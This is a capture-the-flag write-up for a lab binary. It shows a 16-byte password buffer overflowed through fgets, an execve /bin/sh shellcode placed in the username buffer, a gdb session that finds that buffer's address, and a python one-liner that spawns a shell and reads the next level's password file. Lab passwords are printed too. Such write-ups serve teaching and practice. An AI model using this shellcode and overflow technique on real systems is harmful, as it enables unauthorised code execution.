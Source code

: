 # Level 01
*password : uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL*

## Analyze
```
scp -P 4242 level01@192.168.56.109:level01 binary/
```

- name = `dat_wil`
- `verify_user_name()` check only the 7 first characters

Interesting part :
```
char pass_input[16];
...
fgets(pass_input, 100, stdin);
```
**exploit** : `fgets` read 100 characters and store them in a buffer of size 16.\

## Buffer overflow : fgets exploit
**objective** : overflow pass_input to execute a shellcode

shellcode : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`
- `pass_input` is too small for the shellcode, so let's use `use a_user_name`
```
(gdb) b verify_user_name
Breakpoint 1 at 0x8048469
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil

Breakpoint 1, 0x08048469 in verify_user_name ()
(gdb) x/x $eax
0x804a040 <a_user_name>:        0x5f746164
```
- address of `a_user_name + 7` : 0x0804a040 + 7 = 0x0804a047
- eip offset found : 80

```
$ python -c 'print "dat_wil" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\n" + "x42" * 80 + "\x47\xa0\x04\x08"' > /tmp/level1 ; cat /tmp/level1 - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

```
